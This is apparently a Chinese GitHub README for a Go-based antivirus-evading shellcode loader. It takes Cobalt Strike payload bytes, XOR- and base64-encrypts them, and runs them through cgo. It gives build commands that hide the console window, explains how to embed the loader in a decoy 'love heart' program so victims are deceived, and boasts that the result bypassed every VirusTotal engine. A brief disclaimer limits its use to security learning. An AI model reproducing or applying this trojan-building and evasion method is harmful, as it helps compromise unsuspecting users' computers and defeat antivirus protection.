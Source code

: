 #          基于Go语言的shellcode免杀加载器

### 本项目使用go的1.23版本，gcc为8.1.0版本。

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

### 1.项目中使用CS获取payload的c语言代码，获取代码中的十六进制内容，然后放到go中进行随机生成key进行xor异或加密然后进行base64加密。

### 2.在加载器代码中将key和加密代码获取然后使用base64解密后使用key进行xor解密为十六进制代码。

### 3.之后调用cgo来使用c语言进行命令的运行。

## 示例：

#### 1.获取payload c语言

![173712](image\173712.png)

#### 2.获取十六进制数据和加密

将/* length: 893 bytes */
unsigned char buf[] = "  和最后的";删除。只保留十六机制代码

![174226](image\174226.png)

将代码写为xoor.go的命令行参数

go run xoor.go \xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41

后面为完整的十六进制代码，运行得到

![174646](image\174646.png)

保存key和加密的code。

#### 3.使用xooor.go解密代码并调用cgo进行加载。

将key和code复制到xooor.go的key1和payload1参数中，然后

go build -ldflags="-H windowsgui" xooor.go 进行exe编译并指定启动时在后台启动不生成命令行窗口。

#### 4.测试

![175902](image\175902.png)



### 如果觉得就是一个exe而且点击后没有反应别人不会上当，那么可以将shellcode加载器嵌入到爱心代码中。

首先将xooor.go生成的隐藏命令行caiquan.exe放入到hello.go的相同目录，然后

```go
caiquanExePath := "caiquan.exe"
```

```go
tempCaiquanExe, err := os.CreateTemp("", "caiquan-*.exe")
```

中设置你的程序名称

最后 go build -o love.exe hello.go则可以生成木马在后台运行的爱心代码。

![181625](image\181625.png)

![181005](image\181005.png)

shellcode会在用户设置的临时文件夹中运行，结束爱心代码shellcode也不会结束。

## 免杀测试

打开(https://www.virustotal.com/gui/home/upload)

网站上传love.exe进行杀毒检测

![6fe27](image\6fe27.png)

全部绕过。

虽然能绕过shellcode识别但是应用会被识别为未知应用，如果有能力可以尝试数字签名等认证方式。